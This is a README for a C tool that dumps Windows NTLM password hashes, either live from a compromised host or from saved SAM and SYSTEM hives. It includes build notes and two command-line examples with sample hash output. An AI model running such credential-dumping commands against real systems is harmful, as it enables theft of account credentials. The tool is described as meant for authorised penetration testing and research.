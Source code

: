 # hash dumper

Windows NTLM hash dumper utility written in C language. It has support for Windows realtime dumping and Linux dumping from files.

## Responsibility

The author is not responsible for the actions of third parties committed while using the provided software. This software is regarded as a tool for legal penetration testing or conducting research. In case of misuse, the author does not bear any responsibility for the actions of third parties.

## Compilation

For compilation required *OpenSSL >= 3.0 or OpenSSL 1.1.1* library. Use cmake to generate a solution for Visual Studio or Make file. Cmake requires **OPENSSL_ROOT_DIR** and **OPENSSL_LIB** variables to be set.

### Resources
 - [Compiling OpenSSL for Windows](https://wiki.openssl.org/index.php/Compilation_and_Installation)
 - [Running CMake with OpenSSL](https://stackoverflow.com/a/45548831)

## Manual

You can use this utility to dump NTLMv1/2 hashes from already compromised host by using `--realtime` flag

```
> ./hash_dumper.exe --realtime
[+] Hives successfully opened
[+] Successfully dumped bootkey: 2766FA60DBAB4DEE67237AC942E35271
[+] Successfully hashed the bootkey: 966408e98667069a4884956c5e397575

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9cf3445f9555a4c246fe2c3c2446b103:::
sandbox:1002:aad3b435b51404eeaad3b435b51404ee:67b6acadb87c12e9d84e6e73b6883601:::

[+] Successfully finished
```

Otherwise You can extract hashes from already saved hives using parameters `--sam <path_to_sam_hive>` and `--system <path_to_system_hive>`

```
> ./hash_dumper.exe --sam hives/sam --system hives/system
[+] Hives successfully opened
[+] Successfully dumped bootkey: 2766FA60DBAB4DEE67237AC942E35271
[+] Successfully hashed the bootkey: 966408e98667069a4884956c5e397575

Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9cf3445f9555a4c246fe2c3c2446b103:::
sandbox:1002:aad3b435b51404eeaad3b435b51404ee:67b6acadb87c12e9d84e6e73b6883601:::

[+] Successfully finished
```

**If You supply all parameters only ** `--realtime` ** will work.**
